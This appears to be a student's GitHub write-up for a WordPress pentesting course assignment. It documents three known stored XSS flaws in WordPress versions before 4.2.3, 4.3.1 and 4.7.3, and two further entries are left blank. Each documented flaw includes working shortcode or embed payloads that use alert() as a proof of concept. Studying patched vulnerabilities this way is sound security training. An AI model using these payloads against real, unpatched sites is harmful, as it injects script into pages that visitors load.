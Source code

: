 # Project 7 - WordPress Pentesting

Time spent: **5** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Authenticated Stored Cross-Site Scripting (XSS)
  - [ ] Summary: Cross-site scripting (XSS) vulnerability in WordPress before 4.2.3 allows remote authenticated users to inject arbitrary web script or HTML by leveraging the Author or Contributor role to place a crafted shortcode inside an HTML element, related to wp-includes/kses.php and wp-includes/shortcodes.php. 
    - Vulnerability types:XSS
    - Tested in version:4.2.2 and earlier
    - Fixed in version: 4.2.3
  - [ ] GIF Walkthrough: ![](https://github.com/LizDao/Week7CodePath/blob/master/GIF_Walkthrough/XXS_A_Tag.gif)
  - [ ] Steps to recreate:
     First, you need to gain posting permission to the website (maybe through another exploit)
     Then the following code should be entered in a page or posting using the HTML edit mode:
      ```
      <a href="[caption code=">]</a><a title=" onmouseover=alert('XSS!')  ">text</a>
      ```
      WordPress shortcode processing manipulates this into the following form:
      ```
      <a href="</a><a title=" onmouseover=alert('XSS!')  ">text</a>
      ```
       A real-world exploit could use a style attribute to create a transparent tag covering the whole browser window to force execution of      the onmouseover code. 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/changeset/33359)
2. (Required) Authenticated Shortcode Tags Cross-Site Scripting (XSS)
  - [ ] Summary:  Cross-site scripting (XSS) vulnerability in WordPress before 4.3.1 allows remote attackers to inject arbitrary web script or HTML by leveraging the mishandling of unclosed HTML elements during processing of shortcode tags. 
    - Vulnerability types: XSS
    - Tested in version: 4.3 and earlier
    - Fixed in version: 4.3.1
  - [ ] GIF Walkthrough: ![](https://github.com/LizDao/Week7CodePath/blob/master/GIF_Walkthrough/XXS_A_Tag_2.gif)
  - [ ] Steps to recreate: 
    This is quite similar to the first exploit. You need to gain post level permission and then post the following code 
    to the website:
    ```
    [caption width="1" caption='<a href="' ">]</a><a href=" onmouseover='alert("XSS!")' ">Text</a>
    ```
    Which will be processed to be:
    ```
    <figcaption class="wp-caption-text"><a href="</figcaption></figure></a><a href=" onmouseover='alert("XSS!")' ">Text</a>
    ```
    - [ ] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/commit/f72b21af23da6b6d54208e5c1d65ececdaa109c8)
    -[Link 2](https://blog.checkpoint.com/2015/09/15/finding-vulnerabilities-in-core-wordpress-a-bug-hunters-trilogy-part-iii-ultimatum/)
1. (Required) Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds
  - [ ] Summary: In WordPress before 4.7.3 (wp-includes/embed.php), there is authenticated Cross-Site Scripting (XSS) in YouTube URL Embeds. 
    - Vulnerability types: XSS
    - Tested in version:4.7.2
    - Fixed in version: 4.7.3
  - [ ] GIF Walkthrough: ![](https://github.com/LizDao/Week7CodePath/blob/master/GIF_Walkthrough/XSS_Embedded_Linke.gif)
  - [ ] Steps to recreate: 
    Similarly to the 2 exploits above, you gain post level permission and post the embedded url to the website:
    ```
    [embed src='https://www.youtube.com/embed/12345\x3csvg onload=alert("XSS!")\x3e'][/embed]
    ```
    Wordpress will then process this code into:
    ```
    <p>https://youtube.com/watch?v=12345<svg onload=alert("XSS!")></p>
    ```
    - [ ] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/commit/419c8d97ce8df7d5004ee0b566bc5e095f0a6ca8)
1. (Optional)  Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds
  - [ ] Summary: In WordPress before 4.7.3 (wp-includes/embed.php), there is authenticated Cross-Site Scripting (XSS) in YouTube URL Embeds. 
    - Vulnerability types: XSS
    - Tested in version:4.7.2
    - Fixed in version: 4.7.3
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php) 

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
